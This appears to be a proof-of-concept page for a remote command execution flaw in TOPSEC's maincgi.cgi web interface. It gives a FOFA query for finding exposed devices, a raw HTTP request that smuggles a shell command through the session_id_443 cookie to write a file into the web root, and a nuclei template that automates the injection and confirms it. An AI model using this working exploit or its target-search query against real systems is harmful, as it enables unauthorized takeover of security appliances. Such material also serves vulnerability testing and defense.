 ## 天融信TOPSEC_maincgi.cgi远程命令执行

## fofa
```
title="Web User Login" && body="/cgi/maincgi.cgi?Url=VerifyCode"
```

## poc
```
GET /cgi/maincgi.cgi?Url=check HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close
Cookie: session_id_443=1|echo 'This a vulnerability!' >> /www/htdocs/site/image/hard.txt;
```
![e5666ca9ef9cd6bfb4a912093e147e11](https://github.com/wy876/POC/assets/139549762/e4f18daa-2222-42c4-b52f-9b31e468fd44)

![image](https://github.com/wy876/POC/assets/139549762/414a2d98-4206-415b-8252-2d56b397f9e2)


## nuclei 
```
id: topsec-maincgi-rce

info:
  name: 天融信TOPSEC_maincgi.cgi远程命令执行
  author: fgz
  severity: critical
  description: 天融信TOPSEC解决方案包括综合管理系统，各类安全产品如防火墙、VPN、安全网关、宽带管理、入侵检测、内容过滤、个人安全套件以及综合安全审计系统等多种安全功能。该系统maincgi接口处存在RCE漏洞，会导致服务器失陷。
  metadata:
    max-request: 1
    fofa-query: app="天融信-上网行为管理系统",title="Web User Login" && body="/cgi/maincgi.cgi?Url=VerifyCode"
    verified: true
variables:
  file_name: "{{to_lower(rand_text_alpha(6))}}"
  file_content: "{{to_lower(rand_text_alpha(15))}}"
requests:
  - raw:
      - |+
        GET /cgi/maincgi.cgi?Url=check HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
        Cookie: session_id_443=1|echo '{{file_content}}' >> /www/htdocs/site/image/{{file_name}}.txt;

      - |
        GET /site/image/{{file_name}}.txt HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36

    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 && status_code_2 == 200 && contains(body_2, '{{file_content}}')"
```
